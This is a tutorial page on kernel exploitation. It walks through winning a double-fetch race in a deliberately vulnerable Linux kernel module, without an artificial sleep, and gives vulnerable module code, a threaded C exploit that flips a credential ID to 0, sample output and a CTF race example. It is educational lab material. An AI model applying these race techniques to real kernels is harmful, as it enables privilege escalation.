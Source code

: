 ```yaml
---
description: Removing the artificial sleep
---
```


# Double-Fetch without Sleep

## Overview

In reality, there won't be a 1-second sleep for your race condition to occur. This means we instead have to hope that it occurs in the assembly instructions between the two dereferences!

This will not work every time - in fact, it's quite likely to not work! - so we will instead have **two** loops; one that keeps writing `0` to the ID, and another that writes another value - e.g. `900` - and then calling `write`. The aim is for the thread that switches to `0` to sync up so perfectly that the switch occurs inbetween the ID check and the ID "assignment".

{% file src="../../../.gitbook/assets/double_fetch_no_sleep.zip" %}

## Analysis

If we check the source, we can see that there is no `msleep` any longer:

```c
if (creds->id == 0) {
    printk(KERN_ALERT "[Double-Fetch] Attempted to log in as root!");
    return -1;
}

printk("[Double-Fetch] Attempting login...");

if (!strcmp(creds->password, PASSWORD)) {
    id = creds->id;
    printk(KERN_INFO "[Double-Fetch] Password correct! ID set to %d", id);
    return id;
}
```

## Exploitation

Our exploit is going to look slightly different! We'll create the `Credentials` struct again and set the ID to `900`:

```c
Credentials creds;
creds.id = 900;
strcpy(creds.password, "p4ssw0rd");
```

Then we are going to write this struct to the module repeatedly. We will loop it 1,000,000 times (effectively infinite) to make sure it terminates:

```c
// don't want to make the loop infinite, just in case
for (int i = 0; i < 1000000; i++) {
    // now we write the cred struct to the module
    res_id = write(fd, &creds, 0);

    // if res_id is 0, stop the race
    if (!res_id) {
        puts("[+] ID is 0!");
        break;
    }
}
```

If the ID returned is `0`, we won the race! It is really important to keep in mind exactly what the "success" condition is, and how you can check for it.

Now, in the second thread, we will constantly cycle between ID `900` and `0`. We do this in the hope that it will be `900` on the first dereference, and `0` on the second! I make this loop infinite because it is a thread, and the thread will be killed when the program is (provided you remove `pthread_join()`! Otherwise your main thread will wait forever for the second to stop!).

```c
void *switcher(void *arg) {
    volatile Credentials *creds = (volatile Credentials *)arg;

    while (1) {
        creds->id = 0;
        creds->id = 900;
    }
}
```

Compile the exploit and run it, we get the desired result:

```c
~ $ ./exploit 
FD: 3
[    2.140099] [Double-Fetch] Attempted to log in as root!
[    2.140099] [Double-Fetch] Attempted to log in as root!
[+] ID is 0!
[-] Finished race
```

Look how quick that was! Insane - two fails, then a success!

### Race Analysis

You might be wondering how tight the race window can be for exploitation - well, [`gnote` from TokyoWesterns CTF 2019](https://rpis.ec/blog/tokyowesterns-2019-gnote/) had a race of two assembly instructions:

```
; note that rbx is the buf argument, user-controlled
cmp dword ptr [rbx], 5
ja default_case
mov eax, [rbx]
mov rax, jump_table[rax*8]
jmp rax
```

The dereferences `[rbx]` have just one assembly instruction between, yet we are capable of racing. THAT is just how tight!
